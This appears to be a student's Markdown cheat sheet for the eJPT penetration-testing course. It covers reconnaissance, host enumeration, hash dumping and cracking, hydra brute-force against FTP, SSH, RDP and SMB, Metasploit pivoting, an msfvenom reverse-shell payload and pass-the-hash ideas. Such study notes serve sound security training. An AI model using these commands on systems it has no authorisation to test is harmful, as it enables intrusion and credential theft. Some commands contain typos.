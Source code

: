 https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/smb-enum
Assessment methodologies 
- Locate endpoints on a network 
	- `nmap -sC -sV -oA nmap_results ip `
	- `nmap -sS -Pn -A -p- -oN results_nmap ip` 
- identify vulnerabilities in services
	- `nmap -sS -Pn -p port --script naam_script `
	- `ls -al /usr/share/nmap /script |grep -e "keyword"`
- identify operating system of a target 
- Identify open ports and services on a target 
- Extract company information from public sources
- Gather technical information from public sources
	- sitemap.xml
	- whatWeb 
	- dnsdumpster
	- Robot.txt 
	- Netcraft 
	- `dnsrecon -d domain `
	- `wafw00f domain `
	-  `sudo apt-get install sublist3r  `
		- `sublist3r -e`  
		- `sublist3r -d `
- Gather email addresses from public sources 
- Evaluate information and critically or impact of vulnerabilities 


Host & Network Auditing 
- Transfer files to and from target 
	- `SimpleHTTPServer` = python2
	- ` http.server` = python3
	-  Windows:`certutil -urlcache -f http://adres_webserver
	- Linux: `wget http://adres_webserver/filename.exe `
- Enumerate system information on target 
	- Windows: `getuid` `sysinfo`  
	- Linux: `hostname, /etc/issue, /etc/*release, uname -a, env, free -h, df -h` 
- Gather user account information on target 
	- Windows: `getprivs` `getuid` , shell: `whoami, whoami/priv, net user administator, netuser guest, net localgroup, net localgroup ``administrators` ,  `use post/windows/gather/enum_logged_on_users` 
	  `net user administrator 
           `net user guest `
	   `net localgroup` `
	- Linux: `/etc/passwd, ls -al /home, groups, groups user_name, who lat lastlog`
- Enumerate network information from files on target 
	- Windows: shell: `ipconfig, piconfig /all route print arp-a netstat -ano netsh firewall show state, netsh firewall show state, netsh advfirewall firewall` 
	- Linux: `ifconfig, ip a s, /etc/host, /etc/networks, /etc/resolv.config, arp -a, arp, `
- Compile information from files on target 
	- Cross-Compiling Exploits:
		- compile for 64 bit systems `i686-w64-mingw32-gcc c_file -o portable_executable_file_name`
		- compile for 32 bit system: `i686-w64-mingw32-mingw32-gcc c_file -o portable_executable_file_name -lws2_32 
	- compilation with gcc is only for linux 
- Linux cronjobs: `top, ps, ps aux, ls -al /etc/cron*, /etc/cron*, `
- Gather hash/password information from target 
	- `hashdump` 


Window's enumeration: 

- metasploit module win_privs 
- metasploit module enum_logged_on_users 
- metasploit module checkvm 
- metasploit module enum_applications (
- metasploit module enum_computers  
- metasploit module enum_patches session)
- metasploit module enum_shares 
- JAWS


Linux enumeration: 
- post/linux/gather/enum_configs   
- post/linux/gather/enum_network 
- post/linux/gather/enum_system 
- post/linux/gather/enum_checkvm 
- LinEnum 
 

Host & Networking Pentesting 
- Conduct hash cracking 
		- `hashdump` 
		- Windows
			- ``john --format=NT file --wordlist=/usr/share.wordlist/rockyou.txt
			- ``hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt ``
		- Linux 
			- `` john --format=sha512crypt path_that_contain_hash.txt --wordlist=/usr/share/wordlsits/rockyou.txt ``
			- ``hashcat -a3 -m 1800 path_contains_hashes.txt wordlist_path``
- Identify and modify exploits 
	- `searchsploit` 
- Conduct brute-force password attacks 
	- `hydra` 
	- `nmap ip --script ftp-brute --script-args usersb=/root/users -p 21
	- `nmap ip -p port --script {bruteforce script} --script-args userdb=/root/user``
- Conduct exploitation with metasploit 
- Demonstrate pivoting by adding a route 
	- ``run autoroute -s subnetrange_victim1 
- Demonstrating pivoting by port forwarding 
	- ``portfwd add -l 1234 -p 80 -r victim2_ip
	- Scan victim 2 ``nmap -sV -p 1234 localhost``
	- meterpreter victim 2: ``windows/meterpreter/bind_tcp`` 



Web application Pentesting 
- Conduct webapp reconnaissance
- Conduct brute-force login attack
- locate hidden file and directories 
- Identify vulnerabilities in webapp


---


Linux vulnerabilities: 
- Shellshock - CVE-2014-6271- cgi 
- FTP (21) 
	- Hydra: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetip -t 4 ftp ` 
		- start ftp 
	- ProFTPD (metasploit)
- SSH (22)
	- Hydra: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt targetip -t 4 ssh ` 
- SMB - SAMBA (445)
	- `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetip smb `
	- `smbmap` 
	- `enum4linux -a target `

Windows vulnerabilities 
- WebDAV 
	- `nmap -sV -p 80 --script=http-enum target`
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your own ip) LPORT=port that is open on your system -f asp > meterpreter.asp`
				OF 
	- `use exploit/windows/iis/iis_webdav_upload_asp` 
- SMB met PsExec 
	- `search smb_login ` (metasploit) ![[Pasted image 20230703124308.png]]
	- `psexec.py Adminstrator@targetip command_that_you_want_to_execute `
		- `exploit/windows/smb/psexec`
- EternalBlue 
	- `sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target`
- RDP (3389) 
	- sudo nmap -p 3389 targetip
	- `search rdp_scanner` (`aux/scanner/rdp/rdp_scanner`)
	- Hydra: 
		- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetip  -s rdp'port`
	- `xfreerdp /u:administrator /p:qwertyuiop /v:targetip ` 
	- BlueKeep 
		- metasploit module bluekeep 
- WinRM (5985) (5986)
	- Bruteforce: `crackmapexec winrm  targetip -u adminstrator -p /usr/share/metasploit-framework/data/wordlists/unix_password.txt`
	- shell session: `evil-winrm.rb -u username -p 'password' -i targetip`
	- meterpreter session: `winrm_script_exec `


WIndows Vulnerabilities 
- Bypass UAC 
	- user is part of local administrator group: `net localgroup administrators `
- Access Token Impersonation 
	- windows/meterpreter/reverse_tcp
	- `getprivs` -> SeImpersonatePrivilige needs to be present 
- Alternate Data streams 
	- Passwords in Windows Configuration Files 
		- C:\\Windows\\Panther\\Unattend.xml
		- C:\\Windows\\Panther\\Autounattend.xml
- Pash the hash attack 




![[Pasted image 20230930202128.png]]